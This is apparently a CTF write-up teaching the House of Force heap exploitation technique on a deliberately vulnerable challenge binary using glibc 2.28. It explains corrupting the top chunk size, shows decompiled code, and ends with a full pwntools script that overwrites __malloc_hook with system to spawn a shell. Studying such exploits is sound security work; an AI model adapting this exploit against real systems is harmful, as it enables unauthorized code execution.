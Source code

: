 ```yaml
---
title: "Exploring Heap Exploitation: The House of Force Technique"
layout: post
author: Jorge Moreno
---
```



> The House of Force attack is a heap exploitation technique that relays in abusing a heap overflow bug into corrupting the top chunk size, that way we can allocate enough memory to trigger an arbitrary write vulnerability.
> 

We are going to use the vulnerable binary from the [Use the Force, Luke](https://ctftime.org/task/19958) challenge. I downloaded the files from [this writeup](https://diegoaltf4.com/heap-exploitation-0x02/) created by DiegoAltF4.

For versions GLIBC versions prior to 2.29, top chunk size fields are not subject to integrity checks, so if we have a heap overflow bug we can overflow the user data of a chunk into the size field, modifying it with an arbitrary value.

|  | size of the chunk |
| --- | --- |
| USER DATA | USER DATA |
| USER DATA | TOP CHUNK SIZE |

In this example we allocate a chunk for the minimum size 0x20, and fill with A’s the user data and then send `\xff * 8` to change the top chunk size.

|  | 0x0000000000000021 |
| --- | --- |
| 0x4141414141414141 | 0x4141414141414141 |
| 0x4141414141414141 | 0xffffffffffffffff |

This way we can, for example, set the top chunk size to 0xffffffffffffffff, so next time we `malloc` we can allocate a large amount of bytes. Then we can `malloc` again, and write data to any address in memory. To get code execution we can use `__malloc_hook`. The hook is a component that some functions have to modify the behaviour of it in case we need it to do something different. If `__malloc_hook` points to NULL, it will act like a default `malloc`, but if inside it there is any address it will jump into it, executing whatever there is inside. 

## Challenge Solution

---

We are given a binary **force** with a directory **.glibc/** with the libc binary that the executable uses.

First, we check the file with `checksec` command.

![Untitled](images/house-of-force/Untitled.png)

As we can see it doesn’t have PIE enabled but has stack protector and the No eXecute bit enabled.

The libc version that it uses is 2.28, it is < 2.29 so it doesn’t have any security checks in the top chunk size. Now lets decompile the binary and see the code.

```c
undefined8 main(void)

{
  long buf;
  long in_FS_OFFSET;
  int option;
  int i;
  size_t bytes_to_allocate;
  void *heap_leak;
  void *buffer;
  long canary;
  
  canary = *(long *)(in_FS_OFFSET + 0x28);
  puts("\"This is our chance to destroy the Death Star, Luke\"");
  printf("You feel a system at %p\n",system);
  heap_leak = malloc(0x88);
  printf("You feel something else at %p\n",(long)heap_leak + -0x10);
  free(heap_leak);
  for (i = 0; i < 4; i = i + 1) {
    puts("(1) Reach out with the force");
    puts("(2) Surrender");
    __isoc99_scanf(&DAT_00400b62,&option);
    if (option == 2) break;
    printf("How many midi-chlorians?: ");
    __isoc99_scanf("%llu",&bytes_to_allocate);
    printf("What do you feel?: ");
    local_18 = malloc(bytes_to_allocate);
    buf_size = malloc_usable_size(local_18);
    read(0,buffer,buf_size + 8);
  }
  if (canary == *(long *)(in_FS_OFFSET + 0x28)) {
    return 0;
  }
                    /* WARNING: Subroutine does not return */
  __stack_chk_fail();
}
```

The program first prints to us 2 addresses, the `system` function and the top of the heap. Then asks us to choose an option. 

1. Uses `malloc` to allocate `local_18` bytes in the heap and then reads from stdin the usable size of the malloc + 8 (heap overflow). Up to 4 times.
2. Exit the program

To leverage the attack we will do the next steps:

1. Allocate a first chunk to trigger the overflow to corrupt the top chunk size
2. Calculate the distance between the top chunk (`heap_leak + 0x20`) and the address we want to write - 0x20 (we substract 32 bytes because of the first 0x20 bytes before user data)
3. `malloc` a second time to store the string ‘**/bin/sh\x00**’ to use it later as a parameter to the `system` function and to move the top chunk to the address `__malloc_hook - 0x20`.
4. `malloc` **a third time to write the system address leak that we had into `__malloc_hook`.
5. And `malloc` the last time passing as a parameter the address where we stored the **/bin/sh** string to get our shell. 

---

We define the following Python helper method to `malloc`.

```python
def malloc(size, data):
    io.sendlineafter(b'Surrender', b'1')
    io.sendlineafter(b'?:', str(size).encode())
    io.sendlineafter(b'?:', data)
```

Then we send 1 byte so it creates the minimum size chunk (0x20) and send the data to trigger the overflow bug and visualize it with `vis` in gdb-pwndbg.

```python
[...]
malloc(1, b'A' * 0x18 + p64(0xffffffffffffffff))
io.interactive()
```

![Untitled](images/house-of-force/Untitled%201.png)

After that we calculate the distance between `__malloc_hook` and `heap + 0x20` to allocate enough memory and store the **/bin/sh** string.

```python
[...]
diff = (libc.sym.__malloc_hook - 0x20) - (heap_leak + 0x20)
malloc(diff, b'/bin/sh\0')
io.interactive()
```

Lets visualize now with pwndbg. Because we allocated a lot of bytes we will now dump memory with `dq &mp_.sbrk_base`. Because `vis` will be bugged. The bytes `0068732f6e69622f` are the string ****`/bin/sh`**.**

![Untitled](images/house-of-force/Untitled%202.png)

![Untitled](images/house-of-force/Untitled%203.png)

We can see now that the top chunk is right above `__malloc_hook` so next time we create a chunk we will overwrite its content.

```python
[...]
malloc(1, p64(system_leak))
# The size "1" requests a minimum size chunk -> 0x20
```

Now we have written the address of `system` inside the `__malloc_hook` so next time we call the function it will call `system` with the parameter we pass to it.

![Untitled](images/house-of-force/Untitled%204.png)

We just add now the following code to the script `malloc(heap_leak + 0x30, "")`and it will take the string `/bin/sh` ****as a parameter to the `system` function, thus giving us a shell.

![Untitled](images/house-of-force/Untitled%205.png)

## Full Script

---

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from pwn import *

exe = context.binary = ELF(args.EXE or './force', checksec = False)
libc = ELF('./.glibc/glibc_2.28_no-tcache/libc.so.6', checksec = False)

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

gdbscript = '''
continue
'''.format(**locals())

def malloc(size, data):
    io.sendlineafter(b'Surrender', b'1')
    io.sendlineafter(b'?:', str(size).encode())
    io.sendlineafter(b'?:', data)

io = start()

io.recvuntil(b'system at')
system_leak = int(io.recvline(), 16)
libc.address = system_leak - libc.sym.system

io.recvuntil(b'else at')
heap_leak = int(io.recvline(), 16)

malloc(1, b'A' * 0x18 + p64(0xffffffffffffffff))

diff = (libc.sym.__malloc_hook - 0x20) - (heap_leak + 0x20)
info(f"0x{diff:02x} bytes to __malloc_hook")

malloc(diff, b'/bin/sh\0')
malloc(1, p64(system_leak))
malloc(heap_leak + 0x30, "")

io.interactive()
```

